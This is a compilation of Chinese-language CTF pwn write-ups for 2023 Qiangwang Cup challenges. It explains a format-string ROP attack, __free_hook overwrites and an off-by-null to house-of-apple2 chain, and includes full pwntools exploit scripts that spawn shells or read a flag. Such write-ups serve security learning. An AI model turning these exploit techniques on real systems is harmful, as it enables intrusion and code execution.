# 2023 强网杯 -【强网先锋-ez_fmt】


[参考链接](https://www.cnblogs.com/S1nyer/p/17914751.html)
## ez_fmt   libc-2.31.so
### 检查
没有地址随机化

### main

简单粗暴的 printf 格式化字符串漏洞

### 思路
泄露地址，覆盖返回地址构成 ROP 链
printf 执行时，栈上有 __libc_start_main+243 处指令的地址，可以泄露出来得到 libc 基址
关于覆盖返回地址，我们可以修改 main 的返回地址或者 printf 的返回地址
如果修改 main 的返回地址，允许输入的格式化字符串长度可能不够
那修改 printf 的返回地址呢：先算出 libc 基址和 system 的地址，再次触发原来的 read 和 printf 格式化字符串漏洞，这次把 printf 的返回地址改成 system 的地址。但我们发现，改成 system 地址所需的字符数可能不够

这相当于把 0x4012ce 改成 0x7f7569415000，光是地址参数就会撑爆允许的输入长度，所以把 printf 的返回地址改成一个全新的地址肯定行不通，而只修改其中一部分又没有用
所以.....
不如修改 read 的返回地址。由于 read 写入的 buf 位置不变，而调用前要压入的返回地址总是在当前栈顶 -8 处，如果 buf 位于本次调用之前栈顶的上方，就可以修改 read 的返回地址；又因为这是输入型的操作，所以可以大量修改 read 的返回地址


main 函数下面紧挨着就是 libc_init_csu，我们可以利用 pop 指令降低栈顶的位置，使 read 的返回地址落在 buf 的范围内
由于格式化字符串中写入和输出 libc_start_main 参数的部分已经占了 16 字节，剩下的部分还要放下返回到 read 的地址以及控制 pop 的返回地址
而要让 read 的返回地址落在 buf 的范围内：一方面 pop 之后的栈顶仍要在 buf 的范围内，另一方面 pop 之后 ret 要能成功跳回 read 函数，所以至少需要两个 pop——从 libc_ini_csu 里挑就行
先跳到 pop 再跳回 read；反过来的话，read 的返回地址就不在 buf 的范围内了

read 指令

read 的地址在 pop 之后，位于栈上对应的位置，而把 printf 的返回地址改成 pop 的地址只需要修改低字节
泄露 libc_start_main+243 所在的位置，对应第 19 个参数，就可以在 printf 之后算出 libc 基址

之后 read 的输入只需朝返回地址构造 ROP 链即可
用 ROPgadget 找一个合适的 pop rdi; ret，再用 libc.search(b"/bin/sh") 找到参数的地址，最后调用 system


### exp

```python
from pwn import *
libc=ELF("./libc-2.31.so")
f=process("./ez_fmt")
context(os="linux",arch="amd64",log_level="debug")
gdb.attach(f,"b main")
f.recvuntil(b"There is a gift for you ")
stack_buf=int(f.recvuntil(b"\n",drop=True),16)
print(p64(stack_buf-8))
payload=flat(
    {
        0:"%{}c%9$hhn%19$p".format(0xd0) ,
        0x10: p64(0x0000000000401205)+p64(stack_buf-8)
    }
)
f.sendline(payload)
f.recvuntil(b"0x")
libc_start_main_243=int(f.recv(12),16)
libc_base=libc_start_main_243-243-libc.sym["__libc_start_main"]

print(hex(libc_base))
print(hex(libc.search(b"/bin/sh").__next__()))
pop_rdi_ret=p64(0x00000000004012d3)
print(len(payload))
payload=flat(
    {
        0x10:pop_rdi_ret+p64(libc_base+libc.search(b"/bin/sh\x00").__next__()),#注意search（）是括号
        0x20:p64(libc_base+libc.sym["system"])
    }
) # 0x10前面的部分会自动随机填充
print(len(payload))
print(payload)
f.sendline(payload)

f.interactive()

```


# 第七届强网杯 - PWN - [simpleinterpreter]


## 作为一个只学了三个月 pwn 的菜鸡，我打算按难度顺序复现强网杯的题目
先从 simpleinterpreter 开始

## simpleinterpreter libc 2.27

## 逆向分析
[解释器中用到的陌生函数](https://blog.csdn.net/huashaopan/article/details/108570565)

## 方法一
[方法一参考链接](https://xp0int.top/posts/2023/12/18/2023-%E5%BC%BA%E7%BD%91%E6%9D%AF-Quals-Writeup-By-Xp0int/#14-simpleinterpreter)
程序实现了一个 C 语言解释器，可用的关键字如下：
```c
char else enum if int return sizeof while read close printf malloc free memset memcmp exit void main
```


```c
 read close printf malloc free memset memcmp exit 和原生C 函数效果一样
 可以尝试一下&和*操作是否存在，存在利用那么更方便
```

漏洞是越界访问。先用 malloc 申请一个巨大的 chunk，使其落在 mmap 内存中，然后越界写到 libc 中，把 free_hook 覆盖为 system 的地址，再 free "/bin/sh" 即可 getshell（libc 版本为 2.27）

**本地似乎打不通；得到的地址是第几次 mmap 分配出来的并不确定，所以无法确定相对基址的偏移。但 mmap 次数的可能范围有限，多试几次也许能成功**

该方法对应的输入代码如下

```c
main(){
int size;
char* freehook;
char* system; 
char* v;
char *binsh;
size = 204800;
binsh="/bin/sh";
v=malloc(size);
freehook=v-0xb2728;
system=v-0x450bf0;
*(int*)freehook=system;
free(binsh);
}
```
## 方法二
[方法二参考链接](https://blog.wm-team.cn/index.php/archives/69/)

这种方法不使用 * 和 &，单纯用提供的关键字解题
1.  申请一个大于 fastbin 大小的 chunk 和两个 fastbin 大小的 chunk
2.  free 第一个 chunk，它进入 unsorted bin，泄露出 libc 地址
3. free 第二个和第三个 chunk，然后把第三个 chunk 的 fd 改为 free_hook-8 的地址
4. malloc 两次
5. 把第二个 chunk 的内容改为 /bin/sh\x00 和 system 的地址，此时 free_hook 的内容就被覆盖为 system 的地址
6. free 第二个 chunk 即可 getshell 
```python
from pwn import *
sh = process('./simpleinterpreter')
context.log_level = "debug"
code = '''
int main()
{
    void* p1;
    void* p2;
    void* p3;
    void* p4;
    void* p5;
    p1 = malloc(0x500);
    p2 = malloc(0x18);
    p3 = malloc(0x18);
    free(p1);
    printf(p1);
    free(p3);
    free(p2);
    read(0, p2, 8);
    p4 = malloc(0x18);
    p5 = malloc(0x18);
    read(0, p5, 0x10);
    free(p5);
    return 0;
}'''

sh.sendlineafter("Code size:", str(len(code)))
sh.sendafter("Please give me the code to interpret:", code)
libc_base = u64(sh.recvuntil('\x7f')[-6:].ljust(8, '\x00')) - 0x3ebca0
log.success("libc_base:\t" + hex(libc_base))
free_hook = libc_base + 0x3ed8e8
system = libc_base + 0x4f420
sh.send(p64(free_hook - 8))
sh.send("/bin/sh\x00" + p64(system))
sh.interactive()
```
## 方法三
[参考链接](https://mp.weixin.qq.com/s/ksGjGGeYjvWpgmRA5xyBpg)

与方法一的区别只在于泄露 libc 基址的方式
攻击思路是先用 malloc 申请一个大 chunk，再 malloc 一个小 chunk 防止大 chunk 被 free 时与 TOP chunk 合并，利用指针 UAF 读取 free 后残留的 main_arena 来计算 libc 地址，最后用指针把 __free_hook 覆盖为 system，调用 free 即可 getshell

```c

from pwncli import *
cli_script()
set_remote_libc('libc-2.27.so')

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

# one_gadgets: list = get_current_one_gadget_from_libc(more=False)
# CurrentGadgets.set_find_area(find_in_elf=True, find_in_libc=False, do_initial=False)

payload = '''
int c;
int main(){
    int b;
    int libc;
    int* free_hook;
    char* sh;
    libc =  0 ;
    free_hook = libc + 1;
    free_hook = malloc(0x500);
    sh = malloc(0x10);
    free(free_hook);
    libc = *free_hook - 0x3ebca0;
    printf("%lx",libc);
    free_hook = libc + 0x3ed8e8;
    *free_hook = libc + 0x4F420;
    sh[0] = 's';
    sh[1] = 'h';
    free(sh);
    return 0;
}
'''
sla('size:',str(len(payload)))
sla('et:',payload)
ia()
```


# 第七届强网杯 - PWN - [warmup]


##  warmup libc 2.35
## 保护检查

## IDA 逆向
### main

```c
void __fastcall __noreturn main(const char *a1, char **a2, char **a3)
{
  int v3; // eax

  pro_set();
  put_warmup_string();
  while ( 1 )
  {
    put_menu();
    v3 = input_number();
    if ( v3 == 4 )
      _exit(0);
    if ( v3 > 4 )
    {
LABEL_12:
      a1 = "Invalid!";
      puts("Invalid!");
    }
    else
    {
      switch ( v3 )
      {
        case 3:
          deldelete_note();
          break;
        case 1:
          add_note();
          break;
        case 2:
          首位、
          show_note(a1, a2);
          break;
        default:
          goto LABEL_12;
      }
    }
  }
}
```
### deldelete_note

```c
unsigned __int64 delete_note()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("Index: ");
  v1 = input_number();
  if ( v1 < 0x13 )
  {
    if ( chunk_addr_array[v1] )
    {
      free(chunk_addr_array[v1]);
      chunk_addr_array[v1] = 0LL;
      puts("Success~");
    }
  }
  else
  {
    puts("Error!");
  }
  return v2 - __readfsqword(0x28u);
}
```

### add_note

```c
unsigned __int64 add_note()
{
  int i; // [rsp+Ch] [rbp-14h]
  int size; // [rsp+10h] [rbp-10h]
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  for ( i = 0; i <= 18 && chunk_addr_array[i]; ++i )
    ;
  if ( i == 19 )
  {
    puts("FUll!");
  }
  else
  {
    printf("Size: ");
    size = input_number();
    if ( size <= 0 || size > 0xFFFF )
    {
      puts("Error!");
    }
    else
    {
      chunk_addr_array[i] = malloc(size);
      if ( !chunk_addr_array[i] )
      {
        puts("Error!");
        _exit(0);
      }
      printf("Note: ");
      *((_BYTE *)chunk_addr_array[i] + (int)read(0, chunk_addr_array[i], size)) = '\0';// chunk的内容尾部为空字符
      puts("Success~");
    }
  }
  return v3 - __readfsqword(0x28u);
}
```
### show_note

```c
unsigned __int64 show_note()
{
  unsigned int index; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("Index: ");
  index = input_number();
  if ( index < 0x13 )
  {
    if ( chunk_addr_array[index] )
    {
      printf("Note: ");
      puts((const char *)chunk_addr_array[index]);
    }
  }
  else
  {
    puts("Error!");
  }
  return v2 - __readfsqword(0x28u);
}
```
### input_number

```c
int input_number()
{
  char s[24]; // [rsp+0h] [rbp-20h] BYREF
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(s, 0, sizeof(s));
  read_16(s, 16LL);
  return atoi(s);
}
```
### read_16

```c
unsigned __int64 __fastcall read_16(char *a1, __int64 int64_16)
{
  // [COLLAPSED LOCAL DECLARATIONS. PRESS KEYPAD CTRL-"+" TO EXPAND]

  v7 = __readfsqword(0x28u);
  while ( int64_16-- )
  {
    one_char = read(0, a1, 1uLL);
    if ( !one_char )
      break;
    if ( one_char == -1 )
    {
      if ( *__errno_location() != 11 && *__errno_location() != 4 )
        return v7 - __readfsqword(0x28u);
    }
    else
    {
      if ( *a1 == '\n' )
      {
        *a1 = 0;
        return v7 - __readfsqword(0x28u);
      }
      ++a1;
    }
  }
  return v7 - __readfsqword(0x28u);
}
```
#### atoi
atoi 是 C 标准库中用于把字符串转换为整数的函数。函数名来自 "ASCII to integer" 的缩写。atoi 函数定义在 <stdlib.h> 头文件中，它的基本作用是解析一个字符串并将其转换为 int 类型的值。

函数原型如下：

```c

int atoi(const char *str);
```

 
参数 str 是一个指向以空字符 '\0' 结尾的字符数组（即 C 字符串）的指针。atoi 函数会扫描字符串 str，跳过所有空白字符（如空格），直到遇到第一个非空白字符，然后从该字符开始解析，直到遇到第一个非数字字符或字符串结尾。

使用 atoi 方法的一般步骤如下：

1. 忽略字符串开头的所有空白字符。
2. 记录符号（如果有）。正数通常没有符号，负数以 - 开头。
3. 解析字符串中的数字，直到遇到非数字字符或字符串结尾。
4. 收集解析出的数字并将其转换为整数。
5. 如果解析出的数字前面有 -，则将结果转换为负数。
### __errno_location()
__errno_location() 是在某些类 UNIX 系统上定义的函数，尤其是 Linux 系统上的 GNU C 库（glibc）中。该函数用于获取 errno 的地址。errno 是一个全局变量或宏，用于存储函数执行过程中遇到的错误码。

在多线程应用中，用全局变量存储错误码是有问题的，因为多个线程同时更新这个变量会相互冲突。为了解决这个问题，多线程环境下的 errno 一般被实现为一个映射到线程局部存储（TLS）的宏，确保每个线程都有自己的 errno 副本。

__errno_location() 函数用于获取当前线程 errno 变量的地址。应用程序通常不会直接使用这个函数，而是由 errno 宏调用它来获取当前线程的 errno 值。如果你直接包含 <errno.h> 并使用 errno，大多数现代系统上的编译器会自动将其处理为对 __errno_location() 之类函数的调用。
####  相关解释
if (one_char == -1)：这一行检查变量 one_char 是否等于 -1。在从流中读取字符的函数中，-1 通常表示发生了错误或到达了文件末尾（EOF）。

if (*__errno_location() != 11 && *__errno_location() != 4)：这是一个嵌套的 if 语句，在 one_char 等于 -1 时执行。它通过 __errno_location() 函数获取 errno 的地址并解引用以检查其值。它检查 errno 是否既不等于 11 也不等于 4，这两个数字代表特定的错误码：

11 是 EAGAIN（Linux 上的一个错误码），表示该 I/O 操作会阻塞，应稍后重试。
4 是 EINTR，表示操作在完成之前被信号中断。

####  关于 prctl

```c
#include <sys/prctl.h>
int prctl(int option, unsigned long arg2, unsigned long arg3, unsigned long arg4, unsigned long arg5);

// 主要关注prctl()函数的第一个参数，也就是option,设定的option的值的不同导致黑名单不同，介绍2个比较重要的option
// PR_SET_NO_NEW_PRIVS(38) 和 PR_SET_SECCOMP(22)

// option为38的情况
// 此时第二个参数设置为1，则禁用execve系统调用且子进程一样受用
prctl(38, 1LL, 0LL, 0LL, 0LL);

// option为22的情况
// 此时第二个参数为1，只允许调用read/write/_exit(not exit_group)/sigreturn这几个syscall
// 第二个参数为2，则为过滤模式，其中对syscall的限制通过参数3的结构体来自定义过滤规则。
prctl(22, 2LL, &v1);
复制代码
```
## 思路
### 利用高版本 off-by-null 手法造成 chunk extend
[高版本off by null](http://tttang.com/archive/1614/#toc__6)
###  泄露 libc 基址
extend 之后，大 chunk 被 malloc 切割时，剩余部分与原先得到的相关 chunk 位置重叠，从而泄露出 unsortedbin 的地址。
### 泄露堆基址
和泄露 libc 基址差不多，只不过这个 chunk 是被 free 进 tcachebin 的。

### 将放入 tcachebin 的 chunk 的 fd 修改为 stdout
 **记得先提前 free 一个 chunk 进 tcachebin，然后再修改。**
 
先 free 一个 chunk 使其位于 tcachebin 中，然后通过另一个原有 chunk 再次 add，使 add 的大小范围覆盖到该已释放 chunk 的开头部分，这样在 add 时就能修改已释放 chunk 的开头部分。

### 最后 add 两个 chunk
具体如何布局参考 [house of apple2](https://bbs.kanxue.com/thread-273832.htm#%E5%88%A9%E7%94%A8_io_wfile_overflow%E5%87%BD%E6%95%B0%E6%8E%A7%E5%88%B6%E7%A8%8B%E5%BA%8F%E6%89%A7%E8%A1%8C%E6%B5%81)
让第一个 chunk 存放相关的 ROP 链，第二个 chunk 存放伪造的 IO_FILE_plus_struct 结构体，然后按照 house of apple2 进行布局，最后 orw。
## exp

```python
from pwn import *
from pwncli import *

context(os="linux",arch="amd64")
f=process("./warmup")
libc=ELF("./libc.so.6")
#gdb.attach(f)

def menu(number):
    f.recvuntil(b">> ")
    f.sendline(str(number))

def add(size,content):
    menu(1)
    f.sendlineafter(b"Size: ",str(size))
    f.sendafter(b"Note: ",content)


def show(index):
    menu(2)
    f.sendlineafter(b"Index: ",str(index))

def delete(index):
    menu(3)
    f.sendlineafter(b"Index: ",str(index))

add(0x410,"0")#0
add(0x100,"0")#1
add(0x410,"0")#2 合并3的
add(0x440,"0")#3 
add(0x40,"0")#4 off by one写5
add(0x4d0,"0")#5 合并6的
add(0x410,"0")#6
add(0x10,"0")#7 防止合并的

delete(0)
delete(3)
delete(6)
delete(2)

payload=0x410*b"a"+p64(0)+p8(0xa0)+p8(0x4)
add(0x430,payload)# 0 对应原来2
add(0x410,"0")# 2 对应原来6
add(0x410,"0")# 3 对应原来0
add(0x420,"0")# 6 对应原来的3+0x20

delete(3)# 原来0
delete(6)# 原来3+0x20


add(0x410,p64(0)) # 3 原来0
add(0x420,"0") # 6 原来3+0x20

delete(6)
delete(2)
delete(5)


payload=0x4e0*b"a"
add(0x4f0,payload)# 2 原来5
add(0x3f0,"0") # 5 原来6+0x20
add(0x420,"0") # 6  原来3+0x20

delete(4) # 4
payload=0x40*b"a"+p64(0x4a0)
add(0x48,payload) # 4

delete(2)

add(0x10,"0") # 2
show(6) # unsorted bin addr

f.recvuntil("Note: ")
unsorted_bin_addr=f.recvuntil("\n")[:-1]
unsorted_bin_addr=u64(unsorted_bin_addr+2*b"\x00")
print("unsorted_bin_addr",hex(unsorted_bin_addr)) # -0x219ce0

libc_base=unsorted_bin_addr-0x219ce0
pop_rdi = libc_base + 0x000000000002a3e5
pop_rsi = libc_base + 0x000000000002be51
pop_rdxr12 = libc_base + 0x000000000011f0f7
ret = libc_base + 0x0000000000029cd6
pop_rax = libc_base + 0x0000000000045eb0
pop_rbp = libc_base + 0x000000000002a2e0
leave_ret = libc_base + 0x000000000004da83
close = libc_base + libc.sym['close']
read = libc_base + libc.sym['read']
write = libc_base + libc.sym['write']
syscallret = libc_base + next(libc.search(asm('syscall\nret')))
stdout = libc.sym['_IO_2_1_stdout_'] + libc_base

add(0x300,"0") # 8
add(0x130,"0") # 9
add(0x3f0,"0") # 10
add(0x120,"0") # 11

add(0x3f0,"0") # 12
delete(12)

delete(8)
show(6) # heap addr

f.recvuntil("Note: ")
heap_addr=f.recvuntil("\n")[:-1]
heap_addr=int.from_bytes(heap_addr,"little")
heap_addr=heap_addr<<12
print("heap_addr",hex(heap_addr))


add(0x300,"0")# 8
delete(4)
delete(10)

payload=p64(((heap_addr + 0x1080) >> 12) ^ (stdout))[:-1]
payload=0x18*b"a"+p64(0x401)+payload
add(0x40,payload)#4


file1 = IO_FILE_plus_struct()
file1.flags = 0
file1._IO_read_ptr = pop_rbp
file1._IO_read_end = heap_addr + 0x1080  - 8
file1._IO_read_base = leave_ret
file1._IO_write_base = 0
file1._IO_write_ptr = 1
file1._lock = heap_addr 
file1.chain = leave_ret
file1._codecvt =stdout
file1._wide_data =stdout - 0x48
file1.vtable = libc.sym['_IO_wfile_jumps'] + libc_base - 0x20
print("vatable vaule",hex(file1.vtable))

print(len(file1))

flag_addr = heap_addr+ 0x100+0x1080
payload = p64(pop_rdi) + p64(flag_addr) + p64(pop_rsi) + p64(0) + p64(pop_rax) + p64(2) + p64(syscallret) + p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(flag_addr) + p64(pop_rdxr12) + p64(0x50) + p64(0) + p64(read) + p64(pop_rdi) + p64(1) + p64(write)
payload = payload.ljust(0x100, b'\x00')
payload += b'./flag\x00'


add(0x3f0,  payload) #10

add(0x3f0, bytes(file1))

f.interactive()

```


# 第七届强网杯 - PWN - 【WTOA】


## 参考
[WebAssembly 实践指南——C++ 和 Rust 通过 wasmtime 实现相互调用实例
](https://www.cnblogs.com/leometeor/p/17715779.html)
## WebAssembly

WebAssembly 是一种可移植的二进制指令集格式，与平台无关，类似于 Java 的 class 文件字节码。

WebAssembly 最初的设计目的是让浏览器能够运行 C 这类编译型语言的代码。通常，我们的 C 代码由 gcc 或 clang 等编译器直接编译链接成与平台相关的二进制可执行文件，而这种与平台相关的二进制文件是无法被浏览器直接运行的。如果想让浏览器运行 C 代码，就需要一个能把 C 编译成 WebAssembly 指令的编译器，编译出来的代码是 wasm 格式。然后就可以用各种 wasm 运行时来执行 wasm 代码，类似于 JVM 虚拟机执行 class 文件。

由于指令集和运行时环境本身并不与 Web 场景绑定，随着后来的发展，出现了可以脱离浏览器运行的 WebAssembly 指令集独立运行时环境，WebAssembly 的用途也变得更加广泛。

## Wasmtime
相比浏览器运行时，wasmtime 是一个可以在 Web 环境之外执行 wasm 代码的独立运行时环境。它提供了两种执行 wasm 代码的方式：命令行工具和 API。

启动时，flag 以环境变量的形式存在于内存中。这里的 wasm 代码被 AOT 编译成了 ELF，所以要用 ` --allow-precompiled` 来运行
```bash
./wasmtime run --env FLAG="flag{zhiyinnitaimei}" --disable-cache --allow-precompiled ./wtoa
```
## 调试

```bash
gdb ./wasmtime 
set args  run --env FLAG="flag{zhiyinnitaimei}" --disable-cache --allow-precompiled ./wtoa
```
发现 flag 与 add 之后输入的内容离得很近
```bash
pwndbg> search flag{
Searching for value: 'flag{'
[heap]          0x555556fac865 'flag{zhiyinnitaimei}@'
[heap]          0x555556fc91c0 'flag{zhiyinnitaimei}'
[anon_7ffe77bb3] 0x7ffe780b2b40 'flag{zhiyinnitaimei}'
[anon_7ffe77bb3] 0x7ffe780b2c6d 'flag{zhiyinnitaimei}'
[stack]         0x7fffffffe19b 'flag{zhiyinnitaimei}'
pwndbg> search aaaaaaaa
Searching for value: 'aaaaaaaa'
[anon_7ffe77bb3] 0x7ffe780b2cc0 'aaaaaaaa'
pwndbg> distance 0x7ffe780b2cc0-0x7ffe780b2c6d
0x53 does not belong to a mapped page in memory
pwndbg> distance 0x7ffe780b2cc0-0x7ffe780b2b40
0x180 does not belong to a mapped page in memory
pwndbg> 

```

wtoa 的代码段从 wtoa 的 0x1000 偏移处开始，所以记住函数断点是 0x7ffff7bfc000 + IDA 中的地址 - 0x1000

```bash
  0x7ffff7bfc000     0x7ffff7c08000 r-xp     c000   1000 /home/llk/Desktop/pwn/attachment/glibc_pwn/2023qwb_WTOA/WTOA/wtoa

```

##  逆向源码
把 wasm 格式的文件放进 IDA

IDA View->Graphs->Function Calls

找分支多的那个——很可能就是主函数——然后查看它，结合调试和字符串定位进行逆向



调试发现输入 Add 后是下面这样：似乎只取两个字节，然后用高字节减去 A 得到对应的选项，flag 就在下面不远处

```bash
 0x7ffff7bfd337    call   0x7ffff7bfeef0              <0x7ffff7bfeef0>
 
 ► 0x7ffff7bfd33c    movsx  r8, byte ptr [rbx + r15 + 0x10]     R8, [0x7ffe780b2b20] => 0x41
   0x7ffff7bfd342    add    r8d, -0x41                          R8D => 0 (0x41 + 0xffffffffffffffbf)


x/40s 0x7ffe780b2b20
0x7ffe780b2b20:	"Ad"
0x7ffe780b2b23:	""
0x7ffe780b2b24:	""
0x7ffe780b2b25:	""
0x7ffe780b2b26:	""
0x7ffe780b2b27:	""
0x7ffe780b2b28:	""
0x7ffe780b2b29:	""
0x7ffe780b2b2a:	""
0x7ffe780b2b2b:	""
0x7ffe780b2b2c:	""
0x7ffe780b2b2d:	""
0x7ffe780b2b2e:	""
0x7ffe780b2b2f:	""
0x7ffe780b2b30:	""
0x7ffe780b2b31:	""
0x7ffe780b2b32:	""
0x7ffe780b2b33:	""
0x7ffe780b2b34:	""
0x7ffe780b2b35:	""
0x7ffe780b2b36:	""
0x7ffe780b2b37:	""
0x7ffe780b2b38:	""
0x7ffe780b2b39:	""
0x7ffe780b2b3a:	""
0x7ffe780b2b3b:	""
0x7ffe780b2b3c:	"m\034P"
0x7ffe780b2b40:	"flag{zhiyinnitaimei}"
0x7ffe780b2b55:	""

```

